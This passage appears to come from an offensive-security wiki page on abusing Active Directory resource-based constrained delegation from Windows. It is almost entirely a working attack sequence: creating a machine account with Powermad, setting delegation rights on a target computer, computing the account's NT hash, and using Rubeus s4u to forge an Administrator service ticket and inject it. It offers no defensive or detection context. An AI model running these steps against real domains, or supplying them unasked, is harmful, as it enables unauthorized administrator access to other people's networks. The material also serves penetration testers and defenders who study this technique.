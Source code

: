 {% tab title="Windows" %}
The following command can be used to run network operations as a domain user \(prompt for password\)

```bash
runas /netonly /user:$DOMAIN\$USER powershell
```

Check the domain user we control can create a machine account \(`ms-DS-MachineAccountQuota` &gt; 0, by default it is set to 10\).

```text
Get-ADDomain | Select-Object -ExpandProperty DistinguishedName | Get-ADObject -Properties 'ms-DS-MachineAccountQuota'
```

[Powermad](https://github.com/Kevin-Robertson/Powermad) can be used to create a machine account.

```bash
Import-Module .\Powermad.ps1
$password = ConvertTo-SecureString 'SomePassword' -AsPlainText -Force
New-MachineAccount -machineaccount 'SHUTDOWN' -Password $($password)
```

The PowerShell Active Directory Module's cmdlets Set-ADComputer and Get-ADComputer can be used to write and read the attributed of an object \(in this case, to modify the delegation rights\).

```bash
# Populate the msDS-AllowedToActOnBehalfOfOtherIdentity
Set-ADComputer $targetComputer -PrincipalsAllowedToDelegateToAccount 'SHUTDOWN$'

# Check the populated attribute
Get-ADComputer $targetComputer -Properties PrincipalsAllowedToDelegateToAccount
```

[Rubeus](https://github.com/GhostPack/Rubeus) can then be used to request the "impersonation TGS" and inject it for later use.

```bash
Rubeus.exe s4u /user:SHUTDOWN$ /rc4:$computed_NThash /impersonateuser:Administrator /msdsspn:$Target_SPN /ptt
```

The NT hash can be computed as follows.

```bash
Import-Module .\DSInternals.ps1
ConvertTo-NTHash $password
```

Once the ticket is injected, it can natively be used when accessing the service \(see [pass-the-ticket](pass-the-ticket.md)\).
{% endtab %}
{% endtabs %}

## References

{% embed url="https://dirkjanm.io/krbrelayx-unconstrained-delegation-abuse-toolkit/" caption="" %}
